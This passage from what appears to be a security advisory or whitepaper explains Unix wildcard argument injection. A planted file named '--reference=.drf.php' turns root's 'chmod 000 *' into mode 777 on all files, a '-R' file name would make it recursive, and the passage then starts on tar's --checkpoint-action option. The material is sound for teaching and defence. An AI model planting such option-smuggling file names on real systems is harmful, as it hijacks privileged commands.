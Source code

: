 Superuser will now try to set mode 000 on all files.
```
[root@defensecode public]# chmod 000 *
```
Let's check permissions on files...
```
[root@defensecode public]# ls -al
total 68
drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
-rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
-rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
-rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
-rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
-rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
-rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
-rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
-rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
-rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
-rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
-rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
-rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php
```
What happened? Instead of 000, all files are now set to mode 777 because
of the '--reference' option supplied through file name..
Once again, file .drf.php owned by user 'leon' with mode 777 was
used as reference file and since --reference option is supplied, all files
will be set to mode 777.
Beside just --reference option, attacker can also create another file with
'-R' filename, to change file permissions on files in all subdirectories recursively.



# [ 4.3 Tar arbitrary command execution

Previous example is nice example of file ownership hijacking. Now, let's go to even
more interesting stuff like arbitrary command execution. Tar is very common unix program
for creating and extracting archives.
Common usage for lets say creating archives is:
```
[root@defensecode public]# tar cvvf archive.tar *
```
So, what's the problem with 'tar'?
Thing is that tar has many options, and among them, there some pretty interesting
options from arbitrary parameter injection point of view.

Let's check tar manual page (man tar):

      --checkpoint[=NUMBER]
              display progress messages every NUMBERth record (default 10)

       --checkpoint-action=ACTION
              execute ACTION on each checkpoint
